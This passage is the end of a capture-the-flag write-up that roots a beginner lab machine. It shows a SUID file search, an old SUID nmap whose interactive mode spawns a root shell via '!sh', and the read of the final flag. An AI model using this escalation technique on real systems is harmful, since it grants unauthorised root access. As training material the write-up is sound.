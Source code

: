 Let's try to get the root! We will need to do a [privilege escalation](https://en.wikipedia.org/wiki/Privilege_escalation) for that.
First of all, we will check for any files that have the [SUID](https://www.linuxnix.com/suid-set-suid-linuxunix/) set files:
```
$  find / -perm -4000 2>/dev/null
 find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
$
```
Interesting, the nmap is installed. Checking for a version:
```
robot@linux:/$ /usr/local/bin/nmap --version
/usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```
The old version of nmap will allow you to use "interactive" mode. In this mode, you can execute the commands from nmap's shell.
The moment of truth:
```
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
Well done, we have the last flag now:
```
04787ddef27c3dee1ee161b21670b4e4
```
## Conclusion
It was a robust entry-level machine with classic exploitation flow. Recommending it for beginners, there are at least a few good learning points if you are not very experienced yet.  
